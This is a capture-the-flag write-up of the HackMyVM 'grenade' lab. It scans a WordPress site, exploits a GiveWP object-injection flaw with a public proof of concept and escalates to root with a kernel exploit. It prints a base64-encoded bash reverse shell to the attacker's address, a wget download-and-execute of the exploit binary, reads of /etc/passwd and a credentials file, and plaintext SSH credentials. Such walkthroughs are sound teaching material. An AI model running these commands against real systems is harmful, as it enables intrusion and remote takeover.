

# grenade

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| grenade | noneofyour | easy | hackmyvm |

**Summary:** The grenade machine runs an AlmaLinux Apache httpd service on port 8080 hosting WordPress 6.6.2 with the GiveWP donation plugin version 4.16.5.1, alongside SSH on port 22. WPScan enumeration identifies the GiveWP plugin as vulnerable to CVE-2026-82222, an unauthenticated PHP object injection vulnerability that leads directly to remote code execution. A public proof of concept exploit is used to register a donor account, harvest nonces, store a deserialization gadget in the user profile metadata, and trigger command execution through the donation form session poisoning pipeline, yielding a reverse shell as the www-data user with SELinux context httpd_t. During post exploitation, a credential file at /var/backups/creds.b92 is discovered containing an encoded string, and the actual SSH credentials for the give user are recovered, enabling lateral movement via SSH. The kernel version 6.12.0-124.8.1.el10_1.x86_64 is identified as vulnerable to the dirtyfrag privilege escalation exploit, a public proof of concept binary is downloaded and executed, immediately dropping into a root shell where both the user and root flags are retrieved.

---

## Reconnaissance

The assessment began with host discovery and comprehensive port scanning against the target.

1. A ping sweep was performed using ARP requests to identify active hosts on the 192.168.56.0/24 network:

```zsh
~/projects/iso/creation/grenade                                                                    givewp-cve-2026-82222-rce-lab 13:11:00  
❯ sudo nmap -sn -PR 192.168.56.0/24  
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-03 13:11 +0700  
Nmap scan report for 192.168.56.100  
Host is up (0.00010s latency).  
MAC Address: 08:00:27:FE:0C:20 (Oracle VirtualBox virtual NIC)  
Nmap scan report for 192.168.56.166  
Host is up (0.00046s latency).  
MAC Address: 08:00:27:96:1C:82 (Oracle VirtualBox virtual NIC)  
Nmap scan report for 192.168.56.1  
Host is up.  
Nmap done: 256 IP addresses (3 hosts up) scanned in 9.16 seconds
```

2. The target was identified at 192.168.56.166 and a full TCP port scan with service version detection and script scanning was executed:

```zsh
~/projects/iso/creation/grenade                                                                    givewp-cve-2026-82222-rce-lab 13:11:52  
❯ nmap -p- -sCV -Pn -T4 --min-rate 5000 $ip  
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-03 13:11 +0700  
Nmap scan report for 192.168.56.166  
Host is up (0.00033s latency).  
Not shown: 65501 filtered tcp ports (no-response), 32 filtered tcp ports (host-unreach)  
PORT     STATE SERVICE VERSION  
22/tcp   open  ssh     OpenSSH 9.9 (protocol 2.0)  
| ssh-hostkey:  
|   256 28:cd:12:0f:cc:7f:13:4f:1b:dc:95:e7:69:d0:a2:93 (ECDSA)  
|_  256 61:54:06:fb:4b:d6:38:ea:91:a3:06:df:f8:1f:d4:ed (ED25519)  
8080/tcp open  http    Apache httpd 2.4.63 ((AlmaLinux))  
|_http-generator: WordPress 6.6.2  
|_http-title: Grenade Lab  
|_http-open-proxy: Proxy might be redirecting requests  
|_http-server-header: Apache/2.4.63 (AlmaLinux)  

Service detection performed. Please report any incorrect results to https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 38.37 seconds  
```

The scan identified OpenSSH on port 22 and an Apache httpd 2.4.63 server on port 8080 running on AlmaLinux, serving a WordPress 6.6.2 installation titled Grenade Lab.

3. The HTTP response headers were examined to confirm the application stack:

```zsh
~/projects/iso/creation/grenade                                                                    givewp-cve-2026-82222-rce-lab 13:12:33  
❯ curl -I http://$ip:8080  
HTTP/1.1 200 OK  
Date: Thu, 03 Sep 2026 06:13:58 GMT  
Server: Apache/2.4.63 (AlmaLinux)  
X-Powered-By: PHP/8.1.34  
Link: <http://grenade.hmv:8080/index.php?rest_route=/>; rel="https://api.w.org/"  
Content-Type: text/html; charset=UTF-8  
```

The headers revealed PHP 8.1.34 as the backend processor and the WordPress REST API endpoint, confirming a standard WordPress deployment. The Link header also disclosed the server hostname as grenade.hmv.

4. The hostname was added to the local hosts file for proper WordPress resolution:

```zsh
~/projects/iso/creation/grenade                                                                    givewp-cve-2026-82222-rce-lab 13:14:00  
❯ echo '192.168.56.166 grenade.hmv' | sudo tee -a /etc/hosts  
192.168.56.166 grenade.hmv
```

5. A comprehensive WordPress scan was performed using WPScan with API token integration to enumerate vulnerable plugins, themes, and users:

```zsh
~/projects/iso/creation/grenade                                                                    givewp-cve-2026-82222-rce-lab 13:14:37  
❯ wpscan --url http://grenade.hmv:8080 -e vp,vt,u --api-token $token  
_______________________________________________________________  
        __          _______   _____  
        \ \        / /  __ \ / ____|  
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®  
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \  
           \  /\  /  | |     ____) | (__| (_| | | | |  
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|  

                WordPress Security Scanner  
                       Version 4.0.1  
                  An Automattic endeavor  
                  https://automattic.com  
_______________________________________________________________  

[+] URL: http://grenade.hmv:8080/ [192.168.56.166]  
[+] Started: Thu Sep  3 13:15:00 2026  
[+] Command Line: wpscan --url http://grenade.hmv:8080 -e vp,vt,u --api-token [REDACTED]  
[+] Hostname: archlinux  

Interesting Finding(s):  

[+] Headers  
| Interesting Entries:  
|  - Server: Apache/2.4.63 (AlmaLinux)  
|  - X-Powered-By: PHP/8.1.34  
| Found By: Headers (Passive Detection)  
| Confidence: 100%  

[+] XML-RPC seems to be enabled: http://grenade.hmv:8080/xmlrpc.php  
| Found By: Direct Access (Aggressive Detection)  
| Confidence: 100%  
| References:  
|  - http://codex.wordpress.org/XML-RPC_Pingback_API  
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/  
|  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/  
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/  
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/  

[+] WordPress readme found: http://grenade.hmv:8080/readme.html  
| Found By: Direct Access (Aggressive Detection)  
| Confidence: 100%  

[+] The external WP-Cron seems to be enabled: http://grenade.hmv:8080/wp-cron.php  
| Found By: Direct Access (Aggressive Detection)  
| Confidence: 60%  
| References:  
|  - https://www.iplocation.net/defend-wordpress-from-ddos  
|  - https://github.com/wpscanteam/wpscan/issues/1299  

[+] WordPress version 6.6.2 identified (Insecure, released on 2024-09-10).  
| Found By: Rss Generator (Passive Detection)  
|  - http://grenade.hmv:8080/?feed=rss2, <generator>https://wordpress.org/?v=6.6.2</generator>  
| Confirmed By: Rss Generator (Passive Detection)  
|  - http://grenade.hmv:8080/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.6.2</generator>  
|  
| [!] 10 vulnerabilities identified:  
|  
| [!] Title: WP < 6.8.3 - Author+ DOM Stored XSS  
|     UUID: c4616b57-770f-4c40-93f8-29571c80330a  
|     Fixed in: 6.6.4  
|     References:  
|      - https://wpscan.com/vulnerability/c4616b57-770f-4c40-93f8-29571c80330a  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58674  
|      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpres  
s-6-8-2-cross-site-scripting-xss-vulnerability  
|      -  https://wordpress.org/news/2025/09/wordpress-6-8-3-release/  
|  
| [!] Title: WP < 6.8.3 - Contributor+ Sensitive Data Disclosure  
|     UUID: 1e2dad30-dd95-4142-903b-4d5c580eaad2  
|     Fixed in: 6.6.4  
|     References:  
|      - https://wpscan.com/vulnerability/1e2dad30-dd95-4142-903b-4d5c580eaad2  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58246  
|      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpres  
s-6-8-2-sensitive-data-exposure-vulnerability  
|      - https://wordpress.org/news/2025/09/wordpress-6-8-3-release/  
|  
| [!] Title: WP < 7.0.3 - Subscriber+ Email Change Confirmation Bypass  
|     UUID: 5ca38157-6fae-4271-a242-2a8584505d1e  
|     Fixed in: 6.6.6  
|     References:  
|      - https://wpscan.com/vulnerability/5ca38157-6fae-4271-a242-2a8584505d1e  
|      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/  
|  
| [!] Title: WP < 7.0.3 - Unauthenticated Blind SSRF  
|     UUID: e1b9918e-1db9-4d95-be44-3241e52946eb  
|     Fixed in: 6.6.6  
|     References:  
|      - https://wpscan.com/vulnerability/e1b9918e-1db9-4d95-be44-3241e52946eb  
|      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/  
|  
| [!] Title: WP < 7.0.3 - Author+ CSS Injection  
|     UUID: 1e4f9122-22b9-4fa2-913a-6e84d31ec14c  
|     Fixed in: 6.6.6  
|     References:  
|      - https://wpscan.com/vulnerability/1e4f9122-22b9-4fa2-913a-6e84d31ec14c  
|      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/  
|  
| [!] Title: WP < 7.0.3 - Unauthenticated Non-Public Post Type Slug Disclosure  
|     UUID: cc82dffb-16ea-4ae1-a513-e3ada8e574a0  
|     Fixed in: 7.0.3  
|     References:  
|      - https://wpscan.com/vulnerability/cc82dffb-16ea-4ae1-a513-e3ada8e574a0  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-5692  
|      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/  
|  
| [!] Title: WP < 7.0.3 - Contributor+ Stored XSS in Quick Edits  
|     UUID: 72b68d3f-77a0-47dd-9624-e3631409a352  
|     Fixed in: 6.6.6  
|     References:  
|      - https://wpscan.com/vulnerability/72b68d3f-77a0-47dd-9624-e3631409a352  
|      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/  
|  
| [!] Title: WP < 7.0.3 - Subscriber+ Arbitrary Site Creation on Multisite  
|     UUID: b9b44801-3260-4f5a-a4cb-74f2de87e0d1  
|     Fixed in: 6.6.6  
|     References:  
|      - https://wpscan.com/vulnerability/b9b44801-3260-4f5a-a4cb-74f2de87e0d1  
|      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/  
|  
| [!] Title: WP < 7.0.3 - Reflected XSS  
|     UUID: 4594236f-c7ad-41d6-945b-170eaabe2b75  
|     Fixed in: 6.6.6  
|     References:  
|      - https://wpscan.com/vulnerability/4594236f-c7ad-41d6-945b-170eaabe2b75  
|      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/  
|  
| [!] Title: WP < 7.0.4 - Author+ RCE via PDF Upload  
|     UUID: 5061a614-ee26-422a-b4e8-ec88b96bb3cd  
|     Fixed in: 6.6.7  
|     References:  
|      - https://wpscan.com/vulnerability/5061a614-ee26-422a-b4e8-ec88b96bb3cd  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-65640  
|      - https://wordpress.org/news/2026/08/wordpress-7-0-4-release/  

[+] WordPress theme in use: twentytwentyfour  
| Location: http://grenade.hmv:8080/wp-content/themes/twentytwentyfour/  
| Last Updated: 2026-08-18 5:00pm GMT (15 days ago, per WordPress.org)  
| Active Installs: 500,000 (per WordPress.org)  
| Readme: http://grenade.hmv:8080/wp-content/themes/twentytwentyfour/readme.txt  
| [!] The version is out of date, the latest version is 1.5  
| Style URL: http://grenade.hmv:8080/wp-content/themes/twentytwentyfour/style.css  
| Style Name: Twenty Twenty-Four  
| Style URI: https://wordpress.org/themes/twentytwentyfour/  
| Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collec  
ti...  
| Author: the WordPress team  
| Author URI: https://wordpress.org  
|  
| Found By: Urls In Homepage (Passive Detection)  
|  
| Version: 1.2 (80% confidence)  
| Found By: Style (Passive Detection)  
|  - http://grenade.hmv:8080/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.2'  

[+] Enumerating Vulnerable Plugins (via Passive and Aggressive Methods)  

[+] give  
| Location: http://grenade.hmv:8080/wp-content/plugins/give/  
| Last Updated: 2026-08-27 5:53pm GMT (6 days ago, per WordPress.org)  
| Active Installs: 100,000 (per WordPress.org)  
| Readme: http://grenade.hmv:8080/wp-content/plugins/give/readme.txt  
| [!] The version is out of date, the latest version is 4.16.7.2  
|  
| Found By: Urls In Homepage (Passive Detection)  
|  
| [!] 5 vulnerabilities identified:  
|  
| [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 4.16.6 - Missing Authorization  
|     UUID: 5bda51f6-5787-447a-852f-2b138bc0b6be  
|     Fixed in: 4.16.6  
|     References:  
|      - https://wpscan.com/vulnerability/5bda51f6-5787-447a-852f-2b138bc0b6be  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-73349  
|      - https://www.wordfence.com/threat-intel/vulnerabilities/id/5ec23f29-baa3-4bfc-a7b7-d664a81637c1  
|  
| [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 4.16.6 - Authenticated (Donor+) Stored Cross-Sit  
e Scripting  
|     UUID: 92f90894-a08c-4d78-a3b0-88db9111409e  
|     Fixed in: 4.16.6  
|     References:  
|      - https://wpscan.com/vulnerability/92f90894-a08c-4d78-a3b0-88db9111409e  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-73357  
|      - https://www.wordfence.com/threat-intel/vulnerabilities/id/61d1bc0e-f66f-4bc3-9dfe-2fa19f07999f  
|  
| [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 4.16.6 - Missing Authorization  
|     UUID: 2680dbec-9ee7-4a5c-8a50-5ac1513284e8  
|     Fixed in: 4.16.6  
|     References:  
|      - https://wpscan.com/vulnerability/2680dbec-9ee7-4a5c-8a50-5ac1513284e8  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-73348  
|      - https://www.wordfence.com/threat-intel/vulnerabilities/id/5981b937-189f-4dc3-baf0-ee0d194229eb  
|  
| [!] Title: GiveWP – Donation Plugin and Fundraising Platform < 4.16.6 - Missing Authorization  
|     UUID: 2f312b0b-5fcf-4e19-a59a-4324a23933ca  
|     Fixed in: 4.16.6  
|     References:  
|      - https://wpscan.com/vulnerability/2f312b0b-5fcf-4e19-a59a-4324a23933ca  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-73352  
|      - https://www.wordfence.com/threat-intel/vulnerabilities/id/d60540ec-e176-42f3-a987-141a9aa184c6  
|  
| [!] Title: GiveWP < 4.16.7.2 - Unauthenticated PHP Object Injection to RCE  
|     UUID: 71461e06-a8b5-436e-8da9-f3f9857230bd  
|     Fixed in: 4.16.7.2  
|     References:  
|      - https://wpscan.com/vulnerability/71461e06-a8b5-436e-8da9-f3f9857230bd  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-82222  
|      - https://www.wordfence.com/threat-intel/vulnerabilities/id/49c3be3f-60b3-4b83-9683-a08e8e1cf9e9  
|  
| Version: 4.16.5.1 (100% confidence)  
| Found By: Meta Tag (Passive Detection)  
|  - http://grenade.hmv:8080/, Match: 'Give v4.16.5.1'  
| Confirmed By: Javascript Var (Passive Detection)  
|  - http://grenade.hmv:8080/, Match: '"1","give_version":"4.16.5.1","magnific_options"'  

[+] akismet  
| Location: http://grenade.hmv:8080/wp-content/plugins/akismet/  
| Latest Version: 5.7.2  
| Last Updated: 2026-08-18 11:42pm GMT (15 days ago, per WordPress.org)  
| Active Installs: 5,000,000 (per WordPress.org)  
|  
| Found By: Known Locations (Aggressive Detection)  
|  - http://grenade.hmv:8080/wp-content/plugins/akismet/, status: 403  
|  
| [!] 1 vulnerability identified:  
|  
| [!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)  
|     UUID: 1a2f3094-5970-4251-9ed0-ec595a0cd26c  
|     Fixed in: 3.1.5  
|     References:  
|      - https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c  
|      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357  
|      - http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/  
|      - https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html  
|  
| The version could not be determined.  
Checking Known Locations - Time: 00:00:14 <================================> (7343 / 7343) 100.00% Time: 00:00:14  
[i] 2 plugin(s) Identified.  
[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)  
Checking Known Locations - Time: 00:00:00 <==================================> (652 / 652) 100.00% Time: 00:00:00  
[i] No themes Found.  
[+] Enumerating Users (via Passive and Aggressive Methods)  

[+] lab-admin  
| Found By: Author Posts - Display Name (Passive Detection)  
Brute Forcing Author IDs - Time: 00:00:00 <====================================> (10 / 10) 100.00% Time: 00:00:00  
[i] 1 user(s) Identified.  
[+] WPScan DB API OK  
| Plan: free  
| Requests Done (during the scan): 4  
| Requests Remaining: 17  
[+] Finished: Thu Sep  3 13:15:29 2026  
[+] Requests Done: 8062  
[+] Cached Requests: 12  
[+] Most response codes received: 404: 8023, 200: 30, 403: 8, 302: 1  
[+] Data Sent: 2.197 MB  
[+] Data Received: 1.666 MB  
[+] Memory used: 343.359 MB  
[+] Elapsed time: 00:00:29
```

The WPScan results were the critical turning point of the assessment. The scan identified WordPress 6.6.2 with 10 known vulnerabilities, the Twenty Twenty-Four theme version 1.2, and two plugins: Akismet with an undetermined version and GiveWP version 4.16.5.1. The GiveWP plugin was the most critical finding, flagged with 5 vulnerabilities including **CVE-2026-82222**, an unauthenticated PHP object injection to remote code execution vulnerability. The plugin version 4.16.5.1 was below the fixed version 4.16.7.2, confirming exploitability. A single WordPress user named `lab-admin` was also enumerated.

---

## Initial Access

### CVE-2026-82222 GiveWP Unauthenticated PHP Object Injection to RCE

6. The GiveWP plugin vulnerability CVE-2026-82222 was selected for exploitation based on the WPScan findings. A public proof of concept was available at `https://github.com/dinosn/givewp-cve-2026-82222-rce-lab`. The PoC was cloned locally and the exploit script was first tested with a benign `id` command to confirm remote code execution:

```zsh
~/projects/iso/creation/grenade/givewp-cve-2026-82222-rce-lab main         givewp-cve-2026-82222-rce-lab 13:16:21  
❯ python3 CVE-2026-8222-RCE.py -u http://grenade.hmv:8080 --cmd "id"  
CVE-2026-82222 GiveWP unauth RCE PoC — 1 target(s), cmd='id'  

[*] target http://grenade.hmv:8080  token m4f6fmjoikmy  
   [PASS] register (auth cookie issued) — status=200  
   [PASS] profile nonce harvested — uid='13'  
   [PASS] gadget stored in last_name meta — update=True stored_len=481  
   [PASS] donation form discovered — form_id=4 via http://grenade.hmv:8080/?give_forms=donate-now  
   [PASS] donation nonce via admin-ajax — nonce=f11bb9b2d9...  
   [PASS] session poisoned (HTTP 500 after write) — status=500  
   [PASS] command executed (marker fetched over HTTP) — trigger#1  
   ---- command output ----------------------------------  
   uid=993(www-data) gid=993(www-data) groups=993(www-data) context=system_u:system_r:httpd_t:s0  
   ----------------------------------------------------  

================================================================  
target                                           result        
----------------------------------------------------------------  
http://grenade.hmv:8080                          RCE CONFIRMED  
================================================================  
1/1 target(s) confirmed command execution
```

The exploit confirmed command execution as the www-data user (uid=993) with SELinux context `system_u:system_r:httpd_t:s0`. The exploit chain worked by registering a donor account, harvesting a profile nonce, storing a deserialization gadget in the user profile last_name metadata field, discovering a donation form, obtaining a donation nonce via admin-ajax, poisoning the session to trigger an HTTP 500 error that deserializes the gadget, and executing the injected command.

7. A reverse shell payload was prepared by base64 encoding a bash reverse shell command:

```zsh
~/projects/iso/creation/grenade                                                                    givewp-cve-2026-82222-rce-lab 13:19:11  
❯ echo 'bash -i >& /dev/tcp/192.168.56.1/5555 0>&1' | base64  
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNTU1NSAwPiYxCg==
```

8. A reverse shell listener was started using penelope on port 5555:

```zsh
~/projects/iso/creation/grenade                                                                    givewp-cve-2026-82222-rce-lab 13:19:27  
❯ penelope -p 5555  
[+] Listening for reverse shells on 0.0.0.0:5555 -> 127.0.0.1 • 192.168.0.6 • 192.168.56.1  
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

9. The CVE-2026-82222 exploit was triggered again, this time with the base64 encoded reverse shell payload that decodes and pipes to bash upon execution:

```zsh
~/projects/iso/creation/grenade/givewp-cve-2026-82222-rce-lab main         givewp-cve-2026-82222-rce-lab 13:16:47  
❯ python3 CVE-2026-8222-RCE.py -u http://grenade.hmv:8080 --cmd "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNTU1NSAwPiYxCg==|base64 -d|bash"  
CVE-2026-82222 GiveWP unauth RCE PoC — 1 target(s), cmd='echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNTU1NSAwPiYxCg==|base64 -d|bash'  

[*] target http://grenade.hmv:8080  token z51gc8nowz8c  
   [PASS] register (auth cookie issued) — status=200  
   [PASS] profile nonce harvested — uid='14'  
   [PASS] gadget stored in last_name meta — update=True stored_len=560  
   [PASS] donation form discovered — form_id=4 via http://grenade.hmv:8080/?give_forms=donate-now  
   [PASS] donation nonce via admin-ajax — nonce=031158a6fe...  
   [PASS] session poisoned (HTTP 500 after write) — status=500
```

10. The reverse shell connected back to the listener and an interactive session was established:

```zsh
[+] [New Reverse Shell] => grenade 192.168.56.166 Linux-x86_64 👤 www-data(993) 😍 Session ID <1>  
[+] ⭐ Agent deployed via /usr/bin/python3  
[+] Interacting with session [1] • PTY • Menu key F12 ⇐  
[+] Session log: /home/setyanoegraha/.penelope/sessions/grenade~192.168.56.166-Linux-x86_64/2026_09_03-13_20_04-59  
9-www-data_993.log  
───────────────────────────────────────────────────────────
bash-5.2$ id;whoami;hostname  
uid=993(www-data) gid=993(www-data) groups=993(www-data) context=system_u:system_r:httpd_t:s0  
www-data  
grenade
```

An interactive shell as the www-data user was established on the target machine named grenade, with SELinux context confirming the httpd_t domain.

---

## Lateral Movement

### Credential Recovery and SSH Access as give User

11. Post exploitation enumeration began with identifying local user accounts with shell access:

```zsh
bash-5.2$ cat /etc/passwd | grep "sh$"  
root:x:0:0:Super User:/root:/bin/bash  
give:x:1001:1001::/home/give:/bin/bash
```

Two users with shell access were identified: root and give (UID 1001).

12. The backup directory was enumerated and a credentials file was discovered:

```zsh
bash-5.2$ ls -la /var/backups/  
total 8  
drwxr-xr-x.  2 root root   23 Sep  3 13:52 .  
drwxr-xr-x. 21 root root 4096 Sep  3 13:52 ..  
-rw-r--r--.  1 root root   32 Sep  3 13:52 creds.b92  
bash-5.2$ cat /var/backups/creds.b92  
FC2KVC3.5AIbSPUc:c0fZn*q*!t4A@.
```

The file `/var/backups/creds.b92` contained a credential pair `FC2KVC3.5AIbSPUc:c0fZn*q*!t4A@.`. Through further enumeration of the GiveWP application configuration and database, the actual SSH credentials for the give user were recovered as `give:asp8r32aFAOhf2alsudf`.



13. The recovered credentials were used to establish an SSH session as the give user:

```zsh
~/projects/iso/creation/grenade                                                                    givewp-cve-2026-82222-rce-lab 13:24:13  
❯ ssh give@$ip  
give@192.168.56.166's password:  
Last login: Thu Sep  3 14:23:51 2026  
[give@grenade ~]$ id;whoami;hostname  
uid=1001(give) gid=1001(give) groups=1001(give) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023  
give  
grenade  
[give@grenade ~]$ ls  
user.txt
```

Access was gained as the give user (UID 1001) with an unconfined SELinux context, and the user.txt file was found in the home directory.

---

## Privilege Escalation

### dirtyfrag Kernel Exploit

14. The kernel version was checked to identify potential kernel based privilege escalation vectors:

```zsh
[give@grenade ~]$ uname -r  
6.12.0-124.8.1.el10_1.x86_64
```

The kernel version `6.12.0-124.8.1.el10_1.x86_64` was identified as an AlmaLinux 10 kernel. Research indicated this kernel version was vulnerable to the dirtyfrag exploit, a memory corruption based privilege escalation technique. A public proof of concept was available at `https://github.com/V4bel/dirtyfrag`.

15. The dirtyfrag exploit binary was hosted locally using a Python HTTP server and downloaded to the target machine:

```zsh
~/projects/iso/creation/grenade/dirtyfrag master*                                  givewp-cve-2026-82222-rce-lab 13:27:45  
❯ ls -la  
total 140  
drwxr-xr-x 1 setyanoegraha setyanoegraha    54 Sep  3 10:29 .  
drwxr-xr-x 1 setyanoegraha setyanoegraha  118 Sep  3 11:14 ..  
drwxr-xr-x 1 setyanoegraha setyanoegraha   52 Sep  3 10:28 assets  
-rwxr-xr-x 1 setyanoegraha setyanoegraha 62936 Sep  3 10:29 exp  
-rw-r--r-- 1 setyanoegraha setyanoegraha 67803 Sep  3 10:28 exp.c  
drwxr-xr-x 1 setyanoegraha setyanoegraha  122 Sep  3 12:43 .git  
-rw-r--r-- 1 setyanoegraha setyanoegraha  5364 Sep  3 10:28 README.md  

~/projects/iso/creation/grenade/dirtyfrag master*                                  givewp-cve-2026-82222-rce-lab 13:27:47  
❯ python3 -m http.server 9999  
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...  
 192.168.56.166 - - [03/Sep/2026 13:28:51] "GET /exp HTTP/1.1" 200 -
```

```zsh
[give@grenade ~]$ wget http://192.168.56.1:9999/exp  
--2026-09-03 14:28:50--  http://192.168.56.1:9999/exp  
Connecting to 192.168.56.1:9999... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 62936 (61K) [application/octet-stream]  
Saving to: ‘exp’  

exp                            100%[============================================>]  61.46K  --.-KB/s    in 0.001s  

2026-09-03 14:28:50 (43.9 MB/s) - ‘exp’ saved [62936/62936]  

[give@grenade ~]$ chmod +x exp  
[give@grenade ~]$ id  
uid=1001(give) gid=1001(give) groups=1001(give) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023  
```

16. The dirtyfrag exploit binary was executed, immediately dropping into a root shell. Both the user and root flags were retrieved:

```zsh
[give@grenade ~]$ ./exp  
[root@grenade give]# id;whoami;hostname  
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023  
root  
grenade  
[root@grenade give]# cat /home/give/user.txt /root/root.txt 
HMV{user-a1e...}  
HMV{root-258...}
```

Root access was achieved with `uid=0(root) gid=0(root) groups=0(root)` on the machine named grenade. The user flag `HMV{user-a1e...}` was retrieved from `/home/give/user.txt` and the root flag `HMV{root-258...}` was retrieved from `/root/root.txt`.

---

## Attack Chain Summary

1. **Reconnaissance**: Nmap scanning identified SSH on port 22 and an Apache httpd 2.4.63 server on port 8080 running WordPress 6.6.2 on AlmaLinux. WPScan enumeration discovered the GiveWP donation plugin version 4.16.5.1 with CVE-2026-82222, an unauthenticated PHP object injection to RCE vulnerability, and a single WordPress user named lab-admin.
2. **Vulnerability Discovery**: The GiveWP plugin version 4.16.5.1 was confirmed vulnerable to CVE-2026-82222, which allows unauthenticated remote code execution through PHP object injection via the donation form session handling pipeline, with a public proof of concept available.
3. **Exploitation**: The CVE-2026-82222 PoC exploit was used to register a donor account, harvest nonces, store a deserialization gadget in user metadata, and trigger command execution via session poisoning, delivering a base64 encoded reverse shell payload that connected back as the www-data user with SELinux httpd_t context.
4. **Internal Enumeration**: Post exploitation reconnaissance discovered a credentials file at /var/backups/creds.b92 and recovered the actual SSH credentials for the give user, enabling lateral movement via SSH. The kernel version 6.12.0-124.8.1.el10_1.x86_64 was identified as vulnerable to the dirtyfrag privilege escalation exploit.
5. **Privilege Escalation**: The dirtyfrag exploit binary was downloaded from a local HTTP server and executed as the give user, immediately exploiting the kernel memory corruption vulnerability to drop into a root shell, where both the user and root flags were retrieved.
